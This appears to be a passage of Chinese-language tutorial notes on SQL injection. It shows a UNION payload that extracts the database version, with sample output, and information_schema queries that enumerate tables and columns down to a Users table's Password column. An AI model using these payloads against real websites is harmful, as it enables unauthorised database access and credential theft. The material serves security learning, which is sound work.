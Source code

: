 >**Oracle**
>
>`V$VERSION` 视图返回关于数据库和数据库组件的版本信息。`BANNER` 列包含一个字符串，其中包括数据库版本、主要组件版本以及其他一些信息。这通常用于确定数据库当前正在使用的 Oracle 版本。
>
>**MYSQL**
>
>mysql使用#注释

例如如下payload

```solidity
' UNION SELECT @@version--
```

可能会返回以下输出

```sql
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft Corporation
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
```

大多数数据库类型（**Oracle除外**）都有一组称为信息架构的视图。提供了有关数据库的信息。

例如，可以查询`information_schema.tables` 以列出数据库中的表：

```sql
SELECT * FROM information_schema.tables
```

将返回如下所示的输出：

```sql
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```

此输出指示有三个表，分别称为`Products`、`Users` 和`Feedback`。

然后，可以查询`information_schema.columns` 列出各个表中的列

```solidity
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

这将返回如下所示的输出：

```txt
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```
